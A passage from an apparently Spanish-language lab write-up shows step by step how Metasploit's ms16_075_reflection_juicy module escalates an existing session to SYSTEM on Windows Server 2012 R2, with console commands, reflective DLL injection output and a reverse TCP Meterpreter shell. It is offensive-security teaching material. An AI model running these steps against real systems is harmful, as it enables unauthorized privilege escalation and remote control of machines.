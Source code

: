 <h3 id="Meterpreter3">Probando Módulo de Metasploit: exploit/windows/local/ms16_075_reflection_juicy</h3>

Usaremos el módulo `exploit/windows/local/ms16_075_reflection_juicy` para poder escalar privilegios.

Vamos a cargarlo:
```bash
msf6 exploit(windows/local/ms16_075_reflection) > use exploit/windows/local/ms16_075_reflection_juicy
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection_juicy) >
```

Lo configuramos:
```bash
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set LPORT 4848
LPORT => 4848
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set SESSION 1
SESSION => 1
```

Y lo ejecutamos:
```bash
msf6 exploit(windows/local/ms16_075_reflection_juicy) > exploit
[*] Started reverse TCP handler on Tu_IP:4848 
[+] Target appears to be vulnerable (Windows Server 2012 R2)
[*] Launching notepad to host the exploit...
[+] Process 1644 launched.
[*] Reflectively injecting the exploit DLL into 1644...
[*] Injecting exploit into 1644...
[*] Exploit injected. Injecting exploit configuration into 1644...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.180
[*] Meterpreter session 11 opened (Tu_IP -> 192.168.1.180:49199) at 2025-03-18 16:26:48 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Listo, hemos escalado privilegios otra vez.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.exploit-db.com/exploits/49125
* https://www.exploit-db.com/exploits/39161
* https://github.com/ohpe/juicy-potato
* https://github.com/swisskyrepo/PayloadsAllTheThings


<br>
